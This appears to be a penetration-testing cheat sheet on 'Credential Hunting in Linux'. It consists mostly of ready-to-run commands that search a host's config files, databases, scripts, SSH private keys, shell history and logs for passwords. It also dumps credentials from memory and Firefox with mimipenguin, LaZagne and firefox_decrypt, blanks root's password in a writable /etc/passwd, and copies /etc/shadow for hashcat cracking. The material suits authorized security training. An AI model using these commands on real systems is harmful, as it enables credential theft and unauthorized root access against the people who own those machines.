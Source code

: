 # Credential Hunting in Linux
## Files
### Configuration Files
```
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
### Credentials in Configuration Files
```
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
## Databases
```
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
## Notes
```
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
## Scripts
```
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
## SSH Keys
### SSH Private Keys
```
cry0l1t3@unixclient:~$ grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```
### SSH Public Keys
```
cry0l1t3@unixclient:~$ grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```
## History
### Bash History
```
tail -n5 /home/*/.bash*
```
## Logs
```
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```
## Memory and Cache
```
https://github.com/huntergregal/mimipenguin
```
### Memory - Mimipenguin
```
sudo python3 mimipenguin.py
```
```
sudo bash mimipenguin.sh
```
```
sudo python2.7 laZagne.py all
```
## Browsers
### Firefox Stored Credentials
```
ls -l .mozilla/firefox/ | grep default
```
```
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```
```
python3 laZagne.py browsers
```
### Decrypting Firefox Credentials
```
https://github.com/unode/firefox_decrypt
```
```
python3.9 firefox_decrypt.py
```
# Passwd, Shadow & Opasswd
The /etc/passwd file contains information about every existing user on the system and can be read by all users and services.
It can also be that the /etc/passwd file is writeable by mistake. This would allow us to clear this field for the user root so that the password info field is empty. This will cause the system not to send a password prompt when a user tries to log in as root.
## Editing /etc/passwd - Before
```
root:x:0:0:root:/root:/bin/bash
```
## Editing /etc/passwd - After
```
root::0:0:root:/root:/bin/bash
```
## Shadow File
```
sudo cat /etc/shadow
```
If the password field contains a character, such as `!` or `*`, the user cannot log in with a Unix password. However, other authentication methods for logging in, such as Kerberos or key-based authentication, can still be used. The same case applies if the encrypted password field is empty. This means that no password is required for the login.
The encrypted password also has a particular format by which we can also find out some information:
```
$<type>$<salt>$<hashed>
```
By default, the SHA-512 ($6$) encryption method is used on the latest Linux distributions
## Opasswd
The PAM library (pam_unix.so) can prevent reusing old passwords. The file where old passwords are stored is the /etc/security/opasswd.
```
sudo cat /etc/security/opasswd
```
## Cracking Linux Credentials
### Unshadow
```
sudo cp /etc/passwd /tmp/passwd.bak
```
```
sudo cp /etc/shadow /tmp/shadow.bak
```
```
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```
### Hashcat - Cracking Unshadowed Hashes
```
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```
### Hashcat - Cracking MD5 Hashes
```
hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```